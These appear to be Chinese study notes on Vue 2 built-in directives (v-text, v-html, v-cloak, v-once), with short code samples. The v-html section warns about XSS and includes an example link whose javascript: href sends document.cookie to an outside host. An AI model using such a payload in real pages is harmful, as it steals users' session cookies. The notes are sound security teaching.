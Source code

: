 ```vue
		v-pre   : 跳过其所在节点的编译过程
```


## 2、内置指令
### （1）v-text
作用： 向其所在的节点中渲染文本内容。
2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会
```vue
<div>你好，{{name}}</div>
<div v-text="name"></div>

new Vue({
	el:'#root',
	data:{
		name:'尚硅谷',
	}
})
```

### （2）v-html
作用：向指定节点中渲染包含html结构的内容

1. 与插值语法的区别：
			(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
		(2).v-html可以识别html结构

2. 严重注意：v-html有安全性问题
    (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
    (2).一定要在可信的内容上使用v-html，永远不要用在用户提交的内容上！

```vue
	<div v-html="str"></div>
	<div v-html="str2"></div>

new Vue({
	el:'#root',
	data:{
		str:'<h3>你好啊！</h3>',
		str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>资源查找</a>'}
		})
```

### （3）v-cloak
1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题
```vue
<h2 v-cloak>{{name}}</h2>

<style>
	[v-cloak]{
		display:none;
	}
</style>
```
### （4）v-once
1. v-once所在节点在初次动态渲染后，就视为静态内容了
2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能
相当于写上v-once后保存初始值
